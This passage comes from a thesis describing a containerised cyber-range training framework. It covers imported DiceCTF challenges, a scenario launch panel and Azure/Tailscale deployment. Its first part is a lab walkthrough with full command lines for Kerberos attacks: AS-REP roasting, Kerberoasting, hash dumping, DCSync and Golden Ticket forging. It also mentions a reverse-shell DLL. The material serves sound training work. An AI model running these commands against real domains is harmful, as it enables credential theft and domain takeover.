Going more profound in the \textit{AS-REP Roasting} theme, we can use \textit{Kerbrute}\footnote{\url{https://github.com/TarlogicSecurity/kerbrute}} that similarly to \textit{CrackMapExec} performs brute-force attacks on specific users. Furthermore, it identifies which accounts have pre-authentication disabled, meaning they are vulnerable to this attack. If a match between a user and password is found, it saves the TGT ticket for each match found, which opens the door for \textit{Pass the Ticket} attacks. To perform the \textit{AS-REP Roasting} attack, we run \texttt{crackmapexec ldap dc01.xyz.com -u users.txt -p "" ---asreproast out.txt}, where the users file contains the AD users with pre-authentication disabled found using \textit{Kerbrut}e. This command captures the AS-REP response. We then use \textit{hashcat} to crack it and obtain the plaintext password with \texttt{hashcat -m18200 out.txt passwords.txt}. 

It is time to enter the \textit{Kerberoasting} world. We will target service accounts, so we must enumerate every single one. For this, we brute-force the RID, the unique value representing an AD object. We can issue the command \texttt{crackmapexec smb dc01.xyz.com -u USERNAME -p PASSWORD -d xyz.com ---rid-brute}. Then, we create a file with the service account names and use the \textit{GetUserSPNs Impacket script}\footnote{\url{https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py}} with the credentials of an AD user account to get the TGS tickets of the vulnerable service account. The command is as follows \texttt{python getUserSPNs.py xyz.com/USERNAME:PASSWORD -usersfile users.txt -output\\file hashes.kerberoast}, and we then crack the tickets using \textit{hashcat} with \texttt{hashcat -m13\\100 ---force -a 0 hashes.kerberoast passwords.txt}.

The next attack is \textit{Pass the Ticket}, where we start by the fact that we have access to the local administrator account in the Domain Controller and use \textit{Impacket} to dump the NTLM hashes of the administrator account using \texttt{impacket-secretsdump -just-dc-ntlm xyz.com/USERNA\\ME:PASSWORD@dc01.xyz.com}. The next technique is called \textit{Overpass the Hash} because it uses an NT hash to obtain a Kerberos ticket that will be later used to impersonate a user. Then we grab the TGT ticket using the \textit{Impacket GetTGT} module with the command \texttt{impacket-getTGT xyz.com/Administrator -hashes  LMHASH:NTHASH}. Lastly, we export the \textit{KRB5CCNAM\\E} environment variable with the path of the TGT ticket, and we use \textit{Impacket's} WMIExec module to get an Administrator shell on the Domain Controller using the \textit{Pass the Ticket} attack. We can also use \textit{Impacket's} SMBClient module to access the \textit{internal} network share and grab the secret flag. This is the intended solution for solving the challenge.

% PsExec64
The unintended solution uses \textit{PsExec}\footnote{\url{https://learn.microsoft.com/en-us/sysinternals/downloads/psexec}} to perform Local Privilege Escalation, which allows a non-admin process to escalate to SYSTEM if we run \textit{PsExec} with \texttt{.\textbackslash PsExec64.exe -accept\\eula \textbackslash\textbackslash dc01 -s cmd} using the local administrator account on a Remote Desktop session. We then change the directory into the \textit{internal} network share folder and print out the flag.

% Golden Ticket & DCSync
To perform the \textit{Golden Ticket} attack, we first grab the NT hashes using \textit{Impacket's Secrets Dump} module, as before, and the domain SID with \texttt{crackmapexec ldap dc01.xyz.com -u USERNAME -p PASSWORD ---get-sid}. We can get a remote session using the local administrator account in the Domain Controller and using \textit{Mimikatz} in the remote machine, dump the \textit{KRBTGT} account hashes by performing a \textit{DCSync} attack with \texttt{lsadump::dcsync /domain:x\\yz.com /user:krbtgt}. Then, we craft the Golden Ticket using the obtained Domain SID and the \textit{KRBTGT} NT hash. To craft a Golden Ticket for the Administrator AD account, we run \texttt{kerberos::golden /domain:xyz.com /sid:AD\_DOMAIN\_SID /user:AD\_IMPERSON\\ATED\_USER /krbtgt:KRBTGT\_NTHASH /id:AD\_IMPERSONATED\_USER\_ID /ptt}. With not just a Domain Controller but also workstations, we should be able to run the attack and get administrator privileges in the Domain Controller.

% Abuse DNS Admins
Lastly, we can perform a DLL injection attack using a vulnerable AD account belonging to the \textit{DNSAdmins} group. Essentially, this DLL is a reverse shell that connects to the attacker machine, and the threat actor should be able to obtain \textit{SYSTEM} privileges on the Domain Controller machine. 

Our Domain Controller is vulnerable to a wide range of attacks. Some of them were presented above, but many others can be used to target the domain. As mentioned before, this scenario reveals itself as extremely useful as a way to provide the trainee with hands-on experiments for all the possible attacks.

\section{Imported Scenarios} \label{sec:validation_imported_scenarios}

By now, we should clearly know the scenario construction process. The most complex scenarios were detailed in Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}), but the project supports the addition of already existing scenarios. To keep the same logic we followed so far, we opted for picking up scenarios that were already based in Docker. Through our research using platforms like CTFtime\footnote{\url{https://ctftime.org/}}, we chose scenarios from the 2023 DiceCTF\footnote{\url{https://ctf.dicega.ng/}} competition which are available in GitHub\footnote{\url{https://github.com/dicegang/dicectf-2023-challenges}}. The presented scenarios ranged from several categories:

\begin{itemize}
    \item \textbf{Web Exploitation}, which focuses on challenges related to security vulnerabilities in web applications.
    \item \textbf{Miscellaneous}, which point to random challenges requiring simple knowledge, logic, and patience to be solved.
    \item \textbf{Cryptography}-related challenges.
    \item \textbf{Binary Exploitation (\textit{Pwn})}, which comes down to finding a vulnerability in a Windows executable or Linux ELF and exploiting it to gain control over it.
\end{itemize}

A total of 23 challenges from the 2023 DiceCTF edition were imported. To enable this, a Python script was created to convert the scenarios from the format they were published on GitHub to the one our framework understands.

Every imported DiceCTF scenario typically has a YAML file that is core to understanding the challenge. There, we can find information on the challenge's name, author, a short description, where to find the secret flag, the files that should be provided to the trainee so he can have a deeper understanding of the presented code, and the ports that the scenario's containers should expose to the exterior.

With all this information in place, we organized our folder structure for each scenario. Our Python script first pulls the DiceCTF's GitHub repository and recursively looks for the challenges that use Docker. The ones that do not use it are, therefore, excluded. Other specific checks are also performed in this sense, for instance, challenges pinpointed to be excluded because their Docker setup is incompatible with our framework's setup, simply because they use Docker images that do not support the installation of \textit{python3} and \textit{iproute2} packages. Both these packages are required. The former is to be able to run Ansible playbooks, and the latter to configure static routes between containers.
Then, the script goes through the above-mentioned challenge's YAML file and starts creating the scenario's variables file. As before, each scenario's vulnerable container is exposed via a domain, and the format followed by DiceCTF is \texttt{{CHALLENGE\_NAME}.mc.ax}. In our variable's file, we create the necessary configurations in the DNS server, reverse proxy, and the edge router's port forwarding. As each scenario is attack-oriented, we must include the attacker machine in the external network of our setup. This will be the machine in control of the trainee. The following tasks involve setting up the custom scenario's structure, which is very similar for each scenario. The only things that change are the created containers and the domain of the exposed service. If the scenario has two or more containers, the container's names are mapped via the DNS server, as usually happens in Docker. For instance, if a scenario deploys containers \texttt{app} and \texttt{mongo}, the \texttt{app} container may attempt to access the database using the \texttt{mongo} domain. As such, the \texttt{mongo} string must be mapped to the \texttt{mongo} container's IP address.

The last thing on this topic is a feature called \textit{AdminBot} that some scenarios make available. Essentially, this is another service that exposes both a back-end and a front-end. The attacker can request this back-end service to make an HTTP request to a domain of their choice, which can be the vulnerable server itself, as in most scenarios, or a randomly selected domain. Typically, this request incorporates a flag in it, for instance, in the form of a cookie. The \textit{AdminBot}, as shown in Fig. \ref{fig:admin_bot} (p. \pageref{fig:admin_bot}), is entirely available to the trainee. It works as an extra that can provide real aid when solving the challenge.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/adminbot.png}
    \caption{\textit{AdminBot} Interface.}
    \label{fig:admin_bot}
\end{figure}

\section{Scenario Extensibility} \label{sec:validation_scenario_extensibility}

This topic intends to address the scenario extensibility theme. This topic is essential because it ensures the project's continuity regarding future updates. Scenario extensibility is closely related to what was presented in Section \ref{sec:custom_scenario_variables} (p. \pageref{sec:custom_scenario_variables}). For our framework to support new scenarios, developers must understand the project's inner workings. This encompasses variable declarations for each scenario, namely DNS configurations for new domains, port forwarding issues, entry point setup, and representation of custom machines. Given the knowledge we have so far, adding new scenarios to our configuration should be relatively straightforward. 

A new folder inside the \texttt{scenarios} folder should be created for each scenario. Then, a file named \textit{challenge\_vars.yml} should store the custom variables of the scenario. The rest of the folder structure is dedicated to the scenario's files. Every configuration should be specified on the \textit{challenge\_vars.yml} file.

Firstly, the DNS configuration, where information on each domain should be specified. This includes selecting the machines to which internal and external DNS requests should be mapped. Afterward, we should determine the Docker images that will be linked to the custom Docker containers of the scenario. This includes the Docker images' name, the path to reach the \textit{Dockerfile}, and, optionally, possible arguments to the Docker image construction process. While explaining how our framework works, we always followed the logic of having a domain associated with the vulnerable machine because it is easier for the trainee to reach the vulnerable machine by a domain than by an IP address. While expanding the project's scenarios, we follow the same line of logic. As such, adding a reverse proxy to redirect each request to the appropriate Docker container is mandatory. 

With this in mind, we must also include a Docker image configuration for the proxy. The next step is to configure the Docker containers of our custom machines by specifying their name, the Docker image they are associated with, the groups they belong to, the Docker networks and assigned IP address, possible Docker volumes, information on where to find the DNS server, environment variables, and optional variables. The mandatory Docker containers include, again, the reverse proxy and the DNS server. An important note is that the reverse proxy configuration should consist of a set of variables later used in the NGINX configuration, as explained in Section \ref{sec:ansible_reverse_proxies_role} (p. \pageref{sec:ansible_reverse_proxies_role}). This includes specifying the domains to be mapped by the reverse proxy and the machines and ports the requests should be redirected. Notice that this setup allows load balancing configurations as several machines can be specified to the same domain. 

The next topic concerns port forwarding configurations on the edge router. The goal of this configuration is to redirect requests from the attacker's machine located in the external network to the vulnerable service. But since we have a reverse proxy in between, requests are first redirected to it, which then forwards the packets to the final vulnerable service. This configuration allows us to configure the edge router's inbound port and configure the target machine and port to which packets should be redirected. In situations where the target machine is the reverse proxy, its destination port should be 443 (HTTPS), as specified in Section \ref{sec:ansible_reverse_proxies_role} (p. \pageref{sec:ansible_reverse_proxies_role}). In scenarios like Log4j, the connection between the attacker machine and the vulnerable service is not handled by a reverse proxy, meaning we can map packets directly to the vulnerable service.

Lastly, we need to pay attention to the entry point scripting section. For configurations in Docker containers, we need to include a folder with a set of Jinja2 templating files that support the inclusion of variables specified in the YAML files. There is no need to use Jinja2 templates for configurations in the local machine. With each of these configurations, an \textit{entrypoint.sh.j2} or an \textit{entrypoint.sh} file should be created, as it will be the script that Ansible's actions will trigger. Concerning the setup of the attacker machine, including the setup of the previously mentioned root CA is needed so that the digital certificates are considered trusted across scenarios.

Regarding Windows-based scenarios, the only change is creating a hypervisor container that will host the Windows VM. To configure and provision the Windows VM, the developer may create a new set of Ansible playbooks that handle the configuration according to his will.

Having these considerations in mind and following the logic of the already presented scenarios, it is simple to expand the project to new scenarios. 

% Python Script
    % DiceCTF GitHub format
    % Our format (talk about entrypoints)
    % Scenarios that require Admin Bot

\section{User Interface Panel} \label{sec:validation_ui}

For users that like to handle the scenario launching with the touch of a button, we created a user interface that presents us with a listing of every scenario. Fig. \ref{fig:ui_architecture_diagram} (p. \pageref{fig:ui_architecture_diagram}) presents us with a basic overview of the UI panel's architecture.

\begin{figure}[H]
    
\includegraphics[width=10cm]{figures/ui_diagram.pdf}
    \caption{User Interface Panel Architecture Diagram.}
    \label{fig:ui_architecture_diagram}
\end{figure}

To achieve this, we created a \textit{docker-compose.yml} file responsible for launching containers for the front-end, back-end, and database supporting the UI platform. The front-end was developed in \textit{ReactJS}\footnote{\url{https://react.dev/}} using the Material UI\footnote{\url{https://mui.com/material-ui/getting-started/overview/}} component library. The back-end was developed in NodeJS\footnote{\url{https://nodejs.org/en}} and the database in MongoDB\footnote{\url{https://www.mongodb.com/}}. In the middle of the diagram, we can see two distinct sections, the ``\textit{Named FIFOs}'' and the ``\textit{Populate MongoDB}''. The latter concerns the same Python script mentioned in Section \ref{sec:validation_imported_scenarios} (p. \pageref{sec:validation_imported_scenarios}), responsible for importing scenarios from the DiceCTF competition, as well as the custom scenarios from Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}).
Along with this functionality, this script also populates the MongoDB database with the information of every scenario. The ``\textit{Named FIFOs}'' is composed of two named FIFOs that are extremely important for the correct functioning of the project. The goal of the UI panel, is to launch scenarios with the click of a button. This means when a user clicks a button, an HTTP request is sent from the front-end container to the back-end container, which has to launch the scenario somehow. As the back-end itself runs inside a container, there is no direct way of running a shell command sent to the back-end service in the machine hosting the containers. To overcome this, we created these FIFOs, which are bind mounted from the host machine's file system to the back-end container's file system. So, every time the back-end container sends a command to a FIFO on the host machine, there is a script running and waiting for an input which will be the shell command used for launching the scenario. As this command is read in the FIFO, it is then executed in the host machine. So, this part of the problem was solved. The next issue concerns how the user could get feedback on the execution of the scenario. As this process usually takes a while, having a loading spinner with a percentage of the scenario's progress would probably be boring.
The way we approached this was to have a \textit{WebSocket} bound to the local machine that would echo the output of the scenario's execution command. So, whenever we connect to this \textit{WebSocket}, we receive real-time feedback on the scenario's execution process. The way to achieve this was using a program called \textit{websocketd}\footnote{\url{https://github.com/joewalnes/websocketd}}. Then, we have another named FIFO that also waits for incoming data. The \textit{cancel\_mypipe} FIFO waits for commands that cancel the current scenario execution, essentially killing the current \textit{websocketd} process and launching a new one, along with a new \textit{WebSocket}.

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/ui_dashboard.png}
    \caption{User Interface Panel.}
    \label{fig:ui_panel}
\end{figure}

Fig. \ref{fig:ui_panel} (p. \pageref{fig:ui_panel}) presents the front-end design. The UI panel consists of two primary tabs, one for all the available scenarios and one for the solved scenarios, meaning the already completed ones. The design of each page is similar. We can observe two side-bar filters for the categories of the challenges and their difficulty. 

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/ui_example_scenario.png}
    \caption{User Interface Log4j Scenario.}
    \label{fig:ui_log4j_scenario}
\end{figure}

In Fig. \ref{fig:ui_log4j_scenario} (p. \pageref{fig:ui_log4j_scenario}), we can see the details associated with a scenario, namely the name, author, category, difficulty, a short description, and the domains of the services to be targeted within the scenario. This modal also consists of a bottom panel where the front-end connects to the above-mentioned \textit{WebSocket} and constantly receives real-time data on the scenario's execution steps provided by Ansible. 

% Frontend
% Backend
% Named FIFO

\section{Cloud Deployment} \label{sec:validation_cloud_deployment}

One of the project's key aspects was the ability to run complex scenarios with the effort of a click or a command in the local machine. A UI panel was created to broaden the accessibility to users that want to keep it simple. However, the project focused on supporting remote deployments, namely, cloud deployments.

During the development, we used Microsoft Azure as our cloud provider. We created a \textit{Standard D2ads v5} and a \textit{Standard E2bs v5} Azure Virtual Machine featured with 2 vCPUs, 8GB and 16GB of RAM, respectively, and 128GB disk space due to the amount of memory the current cyber ranges take. The OS used was Ubuntu 22.04. Notice the selected VMs need to have KVM virtualization enabled; otherwise, the setup of Windows-based scenarios will not work.

For every scenario deployment, the last steps include the installation of Tailscale in the attacker machine (\textit{attackermachine}) and/or in the hypervisor container (\textit{kvmcontainer}). After the installation of this tool, we add these machines to our Tailscale network as ephemeral nodes with a previously generated authentication key that one can use to sign in to the network. Even the Azure VM, where we later deployed the project, had Tailscale installed and joined the network using the same authentication key. With such a configuration set, accessing every machine belonging to our Tailscale mesh network was easy using \textit{MagicDNS}. Through our host machine, which was also part of the Tailscale network, we can access the attacker machine using the domain \texttt{attackermachine.rhino-duck.ts.net}, the hypervisor container using \texttt{kvmcontainer.rhino-duck.ts.net}, and the remote machine using \texttt{local.rhino-duck.\\ts.net}. Notice \texttt{rhino-duck.ts.net} is Tailscale's network domain. With our remote deployment set in place, we can use these domains to access every remote container without needing any port forwarding or firewall configurations set. This means we can access our attacker machine using VNC, Remote Desktop into our Windows VM, and even access our UI panel hosted in the remote machine. Notice that on every new scenario execution, either via the UI panel or the command line, we first attempt to remove possible attacker or hypervisor machines from the Tailscale network so that when new scenarios are deployed and other machines attempt to join the Tailscale network, there is no collision between domain names. Doing so ensures we always target the correct machines when accessing any of the domains mentioned above.

